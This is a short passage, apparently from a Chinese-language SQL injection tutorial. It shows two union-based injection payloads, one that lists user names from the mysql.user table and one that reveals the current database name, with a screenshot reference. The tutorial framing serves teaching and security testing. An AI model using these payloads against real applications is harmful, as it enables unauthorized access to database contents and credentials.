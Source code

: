 ```
' or 1=1 union select null,User from mysql.user #
```

![show-all-mysql-user](../imgs/wm_259.png)

类似的用户信息获取扩展我们不再意义列举了。

我们还可以查看到当前使用的数据库名称：

```
' or 1=1 union select null,database() #
```
